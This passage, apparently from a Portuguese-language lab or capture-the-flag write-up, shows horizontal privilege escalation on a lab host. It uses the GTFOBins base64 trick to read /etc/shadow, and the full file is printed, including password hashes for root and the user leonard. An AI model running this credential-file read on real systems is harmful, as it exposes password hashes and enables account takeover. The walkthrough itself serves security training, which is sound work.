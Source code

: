 ## **<a id="2"> • Escalação de Privilégio Horizontal.</a>**

O `/usr/bin/base64` é um programa que converte arquivos em base64, e é executável por qualquer usuário. Isso significa que qualquer usuário pode executar esse programa e, consequentemente, ler qualquer arquivo do sistema.

Então vamos usar o base64 para ler o arquivo `/etc/shadow` utilizando os comandos que estão no GTFOBins:

```bash
[leonard@ip-10-10-45-203 /]$ LFILE=/etc/shadow
[leonard@ip-10-10-45-203 /]$ base64 "$LFILE" | base64 --decode
root:$6$DWBzMoiprTTJ4gbW$g0szmtfn3HYFQweUPpSUCgHXZLzVii5o6PM0Q2oMmaDD9oGUSxe1yvKbnYsaSYHrUEQXTjIwOW/yrzV5HtIL51::0:99999:7:::
bin:*:18353:0:99999:7:::
daemon:*:18353:0:99999:7:::
adm:*:18353:0:99999:7:::
lp:*:18353:0:99999:7:::
sync:*:18353:0:99999:7:::
shutdown:*:18353:0:99999:7:::
halt:*:18353:0:99999:7:::
mail:*:18353:0:99999:7:::
operator:*:18353:0:99999:7:::
games:*:18353:0:99999:7:::
ftp:*:18353:0:99999:7:::
nobody:*:18353:0:99999:7:::
pegasus:!!:18785::::::
systemd-network:!!:18785::::::
dbus:!!:18785::::::
polkitd:!!:18785::::::
colord:!!:18785::::::
unbound:!!:18785::::::
libstoragemgmt:!!:18785::::::
saslauth:!!:18785::::::
rpc:!!:18785:0:99999:7:::
gluster:!!:18785::::::
abrt:!!:18785::::::
postfix:!!:18785::::::
setroubleshoot:!!:18785::::::
rtkit:!!:18785::::::
pulse:!!:18785::::::
radvd:!!:18785::::::
chrony:!!:18785::::::
saned:!!:18785::::::
apache:!!:18785::::::
qemu:!!:18785::::::
ntp:!!:18785::::::
tss:!!:18785::::::
sssd:!!:18785::::::
usbmuxd:!!:18785::::::
geoclue:!!:18785::::::
gdm:!!:18785::::::
rpcuser:!!:18785::::::
nfsnobody:!!:18785::::::
gnome-initial-setup:!!:18785::::::
pcp:!!:18785::::::
sshd:!!:18785::::::
avahi:!!:18785::::::
oprofile:!!:18785::::::
tcpdump:!!:18785::::::
leonard:$6$JELumeiiJFPMFj3X$OXKY.N8LDHHTtF5Q/pTCsWbZtO6SfAzEQ6UkeFJy.Kx5C9rXFuPr.8n3v7TbZEttkGKCVj50KavJNAm7ZjRi4/::0:99999:7:::
mailnull:!!:18785::::::
smmsp:!!:18785::::::
```